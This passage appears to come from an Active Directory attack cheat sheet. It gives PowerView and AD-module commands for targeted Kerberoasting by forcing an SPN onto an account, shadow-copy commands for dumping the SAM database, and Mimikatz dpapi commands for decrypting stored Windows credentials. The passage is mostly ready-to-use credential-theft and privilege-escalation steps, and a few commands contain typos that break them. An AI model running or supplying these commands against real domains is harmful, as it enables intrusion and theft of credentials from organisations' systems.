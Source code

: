 *WUT IS DIS ?:
If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it.*
 
- PowerView:
 ```
#Check for interesting permissions on accounts:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  
#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname
  
#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```
- AD Module:
```
#Check if current user has already an SPN setted
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
  
#Force set the SPN on the account:
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```
Finally use any tool from before to grab the hash and kerberoast it!
### Abusing Shadow Copies
If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.
```
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
#List shadow copies using diskshadow
diskshadow list shadows all
  
#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
1) You can dump the backuped SAM database and harvest credentials.
2) Look for DPAPI stored creds and decrypt them.
3) Access backuped sensitive files.
### List and Decrypt Stored Credentials using Mimikatz

Usually encrypted credentials are stored in:
- `%appdata%\Microsoft\Credentials`
- `%localappdata%\Microsoft\Credentials`

```
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"

#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"

#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc

#We now have the masterkey in our local cache:
dpapi::cache

#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```
